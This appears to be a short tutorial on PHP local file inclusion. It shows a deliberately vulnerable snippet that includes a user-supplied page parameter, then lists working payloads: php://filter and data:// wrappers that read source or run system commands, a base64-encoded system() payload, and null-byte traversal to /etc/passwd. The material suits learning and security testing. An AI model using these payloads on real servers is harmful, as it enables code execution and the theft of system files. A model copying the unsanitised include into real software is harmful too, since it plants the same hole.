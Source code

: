 What is local file inclusion?

Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. This vulnerability exists when a web application includes a file without correctly sanitizing the input, allowing an attacker to manipulate the input and inject path traversal characters and include other files from the webserver.

Identifying vulnerable

http://localhost/webhacking/PHP-LFI/index.php?page=page2.php

    ?page=page2.php this is mean web server include some file on local server

Example code vulnerable

<?php
 if (isset($_GET[‘page’]))
 {
 include $_GET[‘page’];
 }
 else
 {
 echo “<p>This is the front page.</p>”;
 }
?>

Type of PHP wrapper

    expect://ls : allow execution of system commands, btw this command not enable default
    php://input : send payload through post method on PHP

    php://filter : allow the attacker to include local file and base64 encode as the output

php://filter/convert.base64-encode/resource=index.php

PHP filter without base64 encode

php://filter/resource=flag.txt

Note: PHP wrapper can be chained multiple time, example

php://filter/convert.base64-encode|convert.base64-decode/resource=index.php

    data:// : can inject the PHP code you want executing directly into the URL

1. data:text/plain,<?php phpinfo(); ?>
2. data:,<?system($_GET['x']);?>&x=ls
3. data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls

Null byte technique

Note: only in versions of PHP below 5.3.4 we can terminate with a null byte

?page=../../../etc/passwd%00

you can use “?” Instead null byte, this is can manipulate web server with adding get request at the end of the payload